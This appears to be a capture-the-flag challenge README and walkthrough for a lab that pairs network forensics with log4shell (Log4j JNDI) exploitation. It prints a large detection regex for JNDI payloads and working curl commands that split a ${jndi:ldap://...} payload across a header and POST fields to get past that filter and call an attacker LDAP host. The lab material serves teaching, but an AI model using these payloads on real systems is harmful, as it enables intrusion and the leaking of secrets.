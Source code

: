 # Chain4Fun
Network forensic combined with spicy log4j vulnerability exploitation
## Structure 
This challenge is made of two docker containers that shares a private network (same setup as [Salty challenge](https://gitlab.com/ctc2021/ctc-network-salty) of CTC2021). Please check out the [initiate.sh](https://gitlab.com/challengethecyber/challenges/-/blob/main/challenges/ctc2022-chain/initiate.sh) script to understand all the steps taken in order to develop the virtual environment. In order to start the challenge the partecipant will have to SSH into the master container.  
## Walkthrough
The user is given non-privileged SSH access to the master machine, in the home folder of the ctc user the following script is found:
```
echo "Running test APIs"
curl -s -X POST -H 'Origin: 192.168.32.1' -d "train=sprinter&company=NS&price=1389&accepted=true" http://10.0.0.8:8080/demo/ctc > /dev/null
sleep 1
curl -s -X POST -H 'Origin: 255.255.255.0' -d "train=intercitydirect&company=NS&price=8080&accepted=false" http://10.0.0.8:8080/demo/ctc > /dev/null
sleep 1
curl -X POST -H 'Origin: 127.0.0.1' -d "train=tram&company=HTA&price=21&accepted=true" http://10.0.0.8:8080/demo/ctc > /dev/null
echo "Retrieving some logs for debugging"
sleep 1
wget http://10.0.0.8:8080/demo/stuff -O application.log
```
The script is executable but **not readable** by the ctc user: 
```
ctc@843b9398a6fd:~$ sudo -l
Matching Defaults entries for ctc on 843b9398a6fd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctc may run the following commands on 843b9398a6fd:
    (root) NOPASSWD: /usr/bin/bash /home/ctc/run-tests.sh
```
Once the script is executed, the user will find in the same folder the application.log file. The application.log file content after the first run would look like this: 
```
022-04-08 12:00:33.747  WARN 1 --- [localhost-startStop-1] o.s.b.StartupInfoLogger                  : InetAddress.getLocalHost().getHostName() took 10011 milliseconds to respond. Please verify your network configuration.
2022-04-08 12:00:23.720  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : Starting DemoApplication v0.0.1-SNAPSHOT using Java 1.8.0_131 with PID 1 (/usr/local/tomcat/webapps/demo/WEB-INF/classes started by root in /usr/local/tomcat)
2022-04-08 12:00:43.771  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : No active profile set, falling back to 1 default profile: "default"
2022-04-08 12:00:44.804  INFO 1 --- [localhost-startStop-1] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 1003 ms
2022-04-08 12:00:45.670  INFO 1 --- [localhost-startStop-1] c.e.d.DemoApplication                    : Started DemoApplication in 67.812 seconds (JVM running for 86.543)
2022-04-08 12:00:46.258  INFO 1 --- [http-apr-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2022-04-08 12:00:46.260  INFO 1 --- [http-apr-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
2022-04-08 12:00:46.374  INFO 1 --- [http-apr-8080-exec-1] HelloWorld                               : true:192.168.32.1:1389sprinter
2022-04-08 12:00:46.375  INFO 1 --- [http-apr-8080-exec-1] HelloWorld                               : Request elaborated
2022-04-08 12:00:47.406  INFO 1 --- [http-apr-8080-exec-3] HelloWorld                               : false:255.255.255.0:8080intercitydirect
2022-04-08 12:00:47.406  INFO 1 --- [http-apr-8080-exec-3] HelloWorld                               : Request elaborated
2022-04-08 12:00:48.421  INFO 1 --- [http-apr-8080-exec-5] HelloWorld                               : true:127.0.0.1:21tram
2022-04-08 12:00:48.421  INFO 1 --- [http-apr-8080-exec-5] HelloWorld                               : Request elaborated
2022-04-08 12:00:49.432  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : Showing environment variables for debugging
2022-04-08 12:00:49.437  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : TOMCAT_ASC_URL
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : HOSTNAME
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : TOMCAT_VERSION
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : CATALINA_HOME
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : LD_LIBRARY_PATH
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : PATH
2022-04-08 12:00:49.438  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : GPG_KEYS
2022-04-08 12:00:49.439  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : PWD
2022-04-08 12:00:49.439  INFO 1 --- [http-apr-8080-exec-7] HelloWorld                               : CTCFLAG
[...]
```
An updated application.log file is retrieved each time the script showed above is ran.  At this point the partecipant should realize we are talking about the infamous [log4shell](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44832) vulnerability and that one of the environment variables of the docker container is called **CTCFLAG**. The tool tcpdump has been granted of raw packet captures and network interface manipulation capabilities hence it can be ran without the need of root permissions. In order to understand what's really happening the partecipant must run tcpdump on the *c_x_eth0* interface and then run again the run-tests.sh script obtaining a network capture file that would look like this: 

![Network capture](images/wireshark_tcpdump.png)

Comparing the application.log file content and the HTTP requests sent to the target container the partecipant can figure out the way the input is logged by the backend. The different parameters part of the HTTP POST body are concatenated in one string and then *logger.info(body)-ed*. Therefore the application is vulnerable to log4j payload but the payload must be splitted properly among the different parameters included in the body of the HTTP request (also keep in mind some chars of the classic log4shell payload must be omitted since already included in the log structure). Moreover a filter is implemented in order to block payloads that are not chained as supposed by the challenge structure (For instance, without filtering applied a normal payload would work in the Origin HTTP header). 

![Exploitation attempts and payloads](images/exploit_filtering_payload.png)

In order to filter the payload the following regex is implemented: 

```
(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))
```
Example of successful exploitation:

```
curl -X POST -H 'Origin: ldap://10.0.0.7' -H 'Content-Type: application/json' --data 'train=}&company=NS&price=1389/a&accepted=${jndi' http://10.0.0.8:8080/demo/ctc
```
```
curl -X POST -H 'Origin: ldap://10.0.0.7:1389/a}' -H 'Content-Type: application/json' --data 'train=}&company=NS&price=1389/a&accepted=${jndi' http://10.0.0.8:8080/demo/ctc
``` 

![Flag](images/flag.png)

Partecipants do not need to obtain a shell access to the target machine, as showed in the picture the environment variable containing the flag can be part of the LDAP redirect object. Nonetheless, if they enumerate the JAVA version and compile the right Java exploit they would be able to access to the target machine. 


